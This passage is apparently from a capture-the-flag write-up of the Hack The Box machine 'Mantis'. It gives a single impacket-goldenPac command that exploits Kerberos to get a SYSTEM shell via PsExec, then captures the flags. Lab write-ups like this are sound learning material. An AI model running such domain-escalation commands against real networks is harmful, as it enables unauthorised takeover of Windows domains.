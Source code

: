 This is a rather complicated attack and something I may write a blog on later... but here's the attack.

```bash
impacket-goldenPac htb.local/james@mantis.htb.local
```
![alt text](/assets/images/16-12-2024/mantis/system.png "System")

At the end of the attack chain PsExec is used to provide us with a shell. Previously this wasn't tidied up on this box and allowed for an unintended method of getting system. Anyway.....

From here we can get both `user.txt` and `root.txt`

Win?

![alt text](/assets/images/16-12-2024/mantis/done.gif "Done")
